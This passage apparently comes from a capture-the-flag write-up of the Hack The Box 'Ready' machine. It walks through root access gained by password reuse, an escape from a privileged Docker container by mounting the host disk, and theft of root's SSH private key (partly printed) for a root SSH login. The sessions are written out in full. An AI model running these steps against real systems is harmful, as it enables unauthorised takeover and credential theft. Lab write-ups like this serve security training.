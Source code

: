 Because `root` and `nil` shared the same password, it was possible to escalate to root reusing nil credentials:
```bash
git@gitlab:/opt/backup$ su root
Password:
root@gitlab:/opt/backup# id                                   
uid=0(root) gid=0(root) groups=0(root)
```

## Privilege Escalation
Because the container had the **privileged** flag set to **true** and root access was gained, it was possible to escape from it and get access on the original target mounting the corresponding partition.

A PoC of the method can be read on the [HackTricks blog](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root)

Enumerated all the partition using `fdisk` and mounted the target filesystem inside the container:
```bash
root@gitlab:/mnt# fdisk -l
...
Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
root@gitlab:/mnt# mount /dev/sda2 /mnt/tmp/

root@gitlab:/mnt# mkdir tmp
root@gitlab:/mnt# mount /dev/sda2 /mnt/tmp/
```

Leaked the root private key:
```bash
root@gitlab:/mnt/tmp/root# ls
docker-gitlab  ready-channel  root.txt  snap
root@gitlab:/mnt/tmp/root# cd .ssh
root@gitlab:/mnt/tmp/root/.ssh# ls
authorized_keys  id_rsa  id_rsa.pub
root@gitlab:/mnt/tmp/root/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvyovfg++zswQT0s4YuKtqxOO6EhG38TR2eUaInSfI1rjH09Q
...
aKvV8jR1G+70v4GVye79Kk7TL5uWFDFWzVPwVID9QCYJjuDlLBaFDnUOYFZW52gz
vJzok/kcmwcBlGfmRKxlS0O6n9dAiOLY46YdjyS8F8hNPOKX6rCd
-----END RSA PRIVATE KEY-----
```

Obtained a high privileged shell using the stolen key:
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ready]
└─$ nano loot/root.rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvyovfg++zswQT0s4YuKtqxOO6EhG38TR2eUaInSfI1rjH09Q
sle1ivGnwAUrroNAK48LE70Io13DIfE9rxcotDviAIhbBOaqMLbLnfnnCNLApjCn
...

┌──(kali㉿kali)-[~/CTFs/HTB/box/Ready]
└─$ ssh root@10.10.10.220 -i loot/root.rsa
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)
...
Last login: Thu Feb 11 14:28:18 2021
root@ready:~# whoami && hostname && cat /root/root.txt && ifconfig -a
root
ready
b7f98681505cd39066f67147b103c2b3
br-bcb73b090b3f: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
```